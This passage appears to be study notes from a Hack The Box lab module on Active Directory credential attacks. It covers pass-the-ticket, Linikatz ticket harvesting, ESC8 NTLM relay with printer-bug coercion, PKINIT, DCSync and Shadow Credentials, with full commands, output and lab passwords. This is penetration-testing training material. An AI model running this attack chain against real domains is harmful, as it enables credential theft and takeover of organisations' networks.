[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```

#### Evil-WinRM

To use evil-winrm with Kerberos, you need to install the Kerberos package used for network authentication. For some Linux like Debian-based, it is called krb5-user. While installing, you'll get a prompt for the Kerberos realm. Use the domain name: ```INLANEFREIGHT.HTB```, and the KDC is the ```DC01```.

```bash
d41y@htb[/htb]$ sudo apt-get install krb5-user -y

Reading package lists... Done                                                                                                  
Building dependency tree... Done    
Reading state information... Done

...SNIP...
```

The Kerberos servers can be emtpy.

In case the package krb5-user is already installed, you need to change the config file ```/etc/krb5.conf``` to include the following values:

```bash
d41y@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

...SNIP...

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

...SNIP...
```

Now you can use evil-winrm.

#### Misc

If you want to use a ccache file in Windows or a kirbi file in a Linux machine, you can use the impacket-ticketConverter to convert them. To use it, you specify the file you want to convert and the output filename:

```bash
d41y@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

You can do the reverse operation by first selecting a ```.kirbi``` file.

Using the ```.kirbi``` file in Windows:

```
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

#### Linikatz

... is a tool for exploiting credentials on Linux machines when there is an integration with AD.

Just like Mimikatz, to take advantage of Linikatz, you need to be root on the machine. This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. Once it extracts the credentials, it places them in a folder whose name starts with ```linikatz.```. Inside this folder, you will find the credentials in the different available formats, including ccache and keytabs. These can be used, as appropriate, as explained above.

```bash
d41y@htb[/htb]$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
d41y@htb[/htb]$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
I: [pbis-check] PBIS AD configuration
I: [samba-check] Samba configuration
-rw-r--r-- 1 root root 8942 Oct  4 16:25 /etc/samba/smb.conf
-rw-r--r-- 1 root root 8 Jul 18 12:52 /etc/samba/gdbcommands
I: [kerberos-check] Kerberos configuration
-rw-r--r-- 1 root root 2800 Oct  7 12:17 /etc/krb5.conf
-rw------- 1 root root 1348 Oct  4 16:26 /etc/krb5.keytab
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1406 Oct 10 19:55 /tmp/krb5cc_647401106_HRJDux
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1414 Oct 10 19:55 /tmp/krb5cc_647401106_R9a9hG
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb 3175 Oct 10 19:55 /tmp/krb5cc_647402606
I: [samba-check] Samba machine secrets
I: [samba-check] Samba hashes
I: [check] Cached hashes
I: [sss-check] SSS hashes
I: [check] Machine Kerberos tickets
I: [sss-check] SSS ticket list
Ticket cache: FILE:/var/lib/sss/db/ccache_INLANEFREIGHT.HTB
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:48:03  10/11/2022 05:48:03  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:48:03, Flags: RIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [kerberos-check] User Kerberos tickets
Ticket cache: FILE:/tmp/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:32:01  10/07/2022 21:32:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/08/2022 11:32:01, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647401106_R9a9hG
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
Ticket cache: FILE:/tmp/krb5cc_647402606
Default principal: svc_workstations@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:55:02  10/11/2022 05:55:02  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:55:02, Flags: FPRIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [check] KCM Kerberos tickets
```

### Pass the Certificate

PKINIT (_Public Key Cryptography for Initial Authentication_) is an extension of the Kerberos protocol that enables the use of public key cryptography during the initial authentication exchange. It is typically used to support user logons via smart cards, which store the private keys. PtC refers to the technique of using X.509 certificates to successfully obtain TGTs. This method is used primarily alongside attacks against AD Certificate Services, as well as in Shadow Credential attacks.

#### AD CS NTLM Relay Attack (_ESC_)

ESC8 is an NTLM relay attack targeting an ADCS HTTP endpoint. ADCS supports multiple enrollment methods, including web enrollment, which by default occurs over HTTP. A certificate authority configured to allow web enrollment typically hosts the following application at ```/Certsrv```:


Attackers can use Impacket's ntlmrelayx to listen for inbound connections and relay them to the web enrollment service using the following command:

```bash
d41y@htb[/htb]$ impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

Attackers can either wait for victims to attempt authentication against their machine randomly, or they can actively coerce them into doing so. One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). This attack requires the targeted machine account to have the Printer Spooler service running. The command below forces 10.129.234.109 (_DC01_) to attempt authentication against 10.10.16.12 (_attacker host_):

```bash
d41y@htb[/htb]$ python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

Referring back to ntlmrelayx, you can see from the output that the authentication request was successfully relayed to the web enrollment applicatino, and a certificate was issued for DC01$.

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[*] HTTP server returned error code 404, treating as a successful login
[*] Authenticating against http://10.129.234.110 as INLANEFREIGHT/DC01$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Received connection from 10.129.234.109, attacking target http://10.129.234.110
[-] Authenticating against http://10.129.234.110 as / FAILED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 8
[*] Writing PKCS#12 certificate to ./DC01$.pfx
[*] Certificate successfully written to file
```

You can now perform a PtC attack to obtain a TGT as DC01$. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py).

```bash
d41y@htb[/htb]$ python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache

2025-04-28 21:20:40,073 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 21:20:40,351 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 21:21:05,508 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 21:21:05,508 minikerberos INFO     3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
INFO:minikerberos:3a1d192a28a4e70e02ae4f1d57bad4adbc7c0b3e7dceb59dab90b8a54f39d616
2025-04-28 21:21:05,512 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Once you successfully obtain a TGT, you're back in familiar PtT territory. As the DC's machine account, you can perform a DCSync attack to, for example, retrieve the NTLM hash of the domain administrator account:

```bash
d41y@htb[/htb]$ export KRB5CCNAME=/tmp/dc.ccache
d41y@htb[/htb]$ impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:...SNIP...:::
<SNIP>
```

#### Shadow Credentials

... refers to an AD attack that abuses the msDS-KeyCredentialLink attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the AddKeyCredentialLink edge indicates that one user has write permissions over another user's msDS-KeyCredentialLink attribute, allowing them to take control of that user.

You can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an X.509 certificate and writes the public key to the victim user's msDS-KeyCredentialLink attribute.

```bash
d41y@htb[/htb]$ pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

[*] Searching for the target account
[*] Target user found: CN=Jesse Pinkman,CN=Users,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3496da7f-ab0d-13e0-1273-5abca66f901d
[*] Updating the msDS-KeyCredentialLink attribute of jpinkman
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: eFUVVTPf.pfx
[+] PFX exportiert nach: eFUVVTPf.pfx
[i] Passwort für PFX: bmRH4LK7UwPrAOfvIx6W
[+] Saved PFX (#PKCS12) certificate & key at path: eFUVVTPf.pfx
[*] Must be used with password: bmRH4LK7UwPrAOfvIx6W
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

In the output above, you can see that a PFX (_PKCS12_) file was created, and the password is shown. You will use this file with gettgtpkinit.py to acquire a TGT as the victim:

```bash
d41y@htb[/htb]$ python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache

2025-04-28 20:50:04,728 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-28 20:50:04,775 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-28 20:50:04,929 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-28 20:50:04,929 minikerberos INFO     f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
INFO:minikerberos:f4fa8808fb476e6f982318494f75e002f8ee01c64199b3ad7419f927736ffdb8
2025-04-28 20:50:04,937 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

With the TGT obtained, you may once again PtT:

```bash
d41y@htb[/htb]$ export KRB5CCNAME=/tmp/jpinkman.ccache
d41y@htb[/htb]$ klist

Ticket cache: FILE:/tmp/jpinkman.ccache
Default principal: jpinkman@INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
04/28/2025 20:50:04  04/29/2025 06:50:04  krbtgt/INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL
```

In this case, you discovered that the victim user is a member of the Remote Management Users group, which permits them to connect to the machine via WinRM.

```bash
d41y@htb[/htb]$ evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jpinkman\Documents> whoami
inlanefreight\jpinkman
```

#### No PKINIT?

In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks.